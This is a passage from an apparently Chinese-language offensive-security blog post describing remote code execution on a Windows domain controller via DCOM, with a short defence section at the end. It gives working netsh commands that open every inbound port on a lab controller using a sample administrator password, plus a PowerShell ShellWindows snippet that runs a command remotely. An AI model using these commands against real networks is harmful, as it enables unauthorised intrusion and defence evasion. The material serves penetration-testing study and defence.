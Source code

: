 **1、获取域控权限**

包括域控内置帐户administrator的口令，如果域控防火墙关闭，可直接远程执行程序

**注：**

如果想使用其他帐户远程连接，需要先通过dcomcnfg.exe进入COM安全，激活用户的远程启动和远程激活属性

**2、预置后门**

如果域控开启防火墙，无法直接使用DCOM远程执行，需要获得远程修改防火墙配置的权限，该权限可通过设置`允许Windows防火墙远程管理`（系统默认关闭）获得

该操作需要3389连接域控或是使用其他方法在域控主机上执行代码，管理员权限执行：

```
netsh advfirewall set currentprofile settings remotemanagement enable
```

**3、远程打开端口**

使用netsh远程修改域控防火墙规则，打开端口

```
netsh -r 192.168.0.2 -u TEST\administrator -p domain123! advfirewall firewall add rule name="any" protocol=TCP dir=in localport=any action=allow
```

**4、远程执行**

使用net use 远程连接，接着执行如下powershell代码：

```
$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.0.2")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```

**注：**

选择使用`'9BA05972-F6A8-11CF-A442-00A0C90A8F39'`，执行程序的用户名为当前登录用户


**5、远程恢复域控防火墙设置**

```
netsh -r 192.168.0.2 -u TEST\administrator -p domain123! advfirewall firewall Delete rule name="any"
```


## 0x04 防御
---

针对利用DCOM远程执行程序，只要开启防火墙即可

也可禁用内置帐户Administrator对COM的远程启动和远程激活权限，命令如下:

`dcomcnfg.exe`

打开组件服务-我的电脑-属性-COM安全-启动和激活权限-编辑默认值，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-15/4-3.png)
